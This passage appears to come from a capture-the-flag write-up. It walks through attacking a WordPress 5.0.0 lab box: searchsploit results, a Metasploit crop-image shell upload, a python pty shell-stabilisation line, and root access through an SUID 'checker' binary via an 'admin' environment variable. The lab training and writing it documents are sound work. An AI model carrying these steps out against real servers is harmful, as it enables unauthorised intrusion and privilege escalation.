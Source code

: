 Now that we have a password, I check the website if we are an admin but unfortunately not. Instead I use `searchsploit` to check what vulnerabilities we can exploit on WordPress version 5.0.0

```
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
WordPress 5.0.0 - Image Remote Code Execution          | php/webapps/49512.py
WordPress Core 5.0 - Remote Code Execution             | php/webapps/46511.js
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasp | php/remote/46662.rb
WordPress Core < 5.2.3 - Viewing Unauthenticated/Passw | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Servic | php/dos/47800.py
WordPress Plugin Custom Pages 0.5.0.1 - Local File Inc | php/webapps/17119.txt
WordPress Plugin Database Backup < 5.2 - Remote Code E | php/remote/47187.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vu | php/webapps/39553.txt
WordPress Plugin FeedWordPress 2015.0426 - SQL Injecti | php/webapps/37067.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Inject | php/webapps/44943.txt
WordPress Plugin leenk.me 2.5.0 - Cross-Site Request F | php/webapps/39704.txt
WordPress Plugin Marketplace Plugin 1.5.0 < 1.6.1 - Ar | php/webapps/18988.php
WordPress Plugin Network Publisher 5.0.1 - 'networkpub | php/webapps/37174.txt
WordPress Plugin Nmedia WordPress Member Conversation  | php/webapps/37353.php
WordPress Plugin Quick Page/Post Redirect 5.0.3 - Mult | php/webapps/32867.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Inje | php/webapps/48918.sh
WordPress Plugin Smart Slider-3 3.5.0.8 - 'name' Store | php/webapps/49958.txt
WordPress Plugin WP-Property 1.35.0 - Arbitrary File U | php/webapps/18987.php
------------------------------------------------------- ---------------------------------
```

I first tried to use `php/webapps/49512.py` but I just could not figure out how to execute code via the exiftool (something to learn) so instead I cheaped out and decided to fire up `msfconsole` (metasploit).

I search for the Crop-image shell upload (from searchsploit earlier) and set up the parameters for that. Note that you must use the _**IP**_ address and not `blog.thm` as your RHOST.

Running `exploit`...and we are in!

I don't like the metasploit terminal interface so I launch a shell with `shell` and then stabilise it with:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

And now we can navigate around as `www-data`.
I navigate to `/tmp` and grab linpeas off my machine to easily enumerate the system.

When examining programs which have their `SUID` set, we notice that there is a strange program `checker` which seems to run some sort of code that launches a shell.

We know this from running `ltrace` on `checker` to see what resources it is accessing

It checks in the environment for a variable `admin` and spawns the shell according to a value of that.

```bash
export admin=1
```
